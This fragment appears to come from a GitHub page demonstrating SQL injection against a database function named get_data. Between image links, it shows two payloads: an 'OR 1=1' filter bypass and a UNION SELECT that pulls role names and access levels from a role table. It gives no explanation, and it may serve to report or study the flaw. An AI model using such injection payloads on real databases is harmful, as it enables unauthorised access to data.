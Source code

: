 ![image](https://user-images.githubusercontent.com/79399103/206894399-fea85177-6f02-4d72-82ce-5bd22a1035aa.png)
SELECT * FROM get_data('1'' OR 1=1 -- ');
![image](https://user-images.githubusercontent.com/79399103/206894426-de3dab1d-b435-4bad-8beb-b92c97917ac0.png)
SELECT * FROM get_data('name'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS VARCHAR) FROM role_access_level --');
![image](https://user-images.githubusercontent.com/79399103/206896089-b7db3cf3-3c4d-47aa-9ed7-7c97962e494d.png)

